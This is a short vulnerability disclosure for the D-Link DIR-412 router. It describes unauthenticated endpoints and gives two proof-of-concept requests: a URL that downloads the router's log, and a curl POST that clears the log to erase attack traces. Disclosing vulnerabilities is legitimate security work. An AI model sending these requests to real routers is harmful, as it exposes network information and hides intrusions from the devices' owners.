 #### info of vulnerability
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-412(A1-1.14WW)   

Poc1: http://targetip/log_get.php
Attackers can get log file by this request.
![poc1](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc1.png)
Poc2: curl -d "act=clear&logtype=sysact" "http://targetip/log_clear.php"
Attackers can clear log file by this request.
![poc2](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc2.png)
#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：
Jian-bin Ye

Wei Xie

Zhen-hua Wang

En-Ze Wang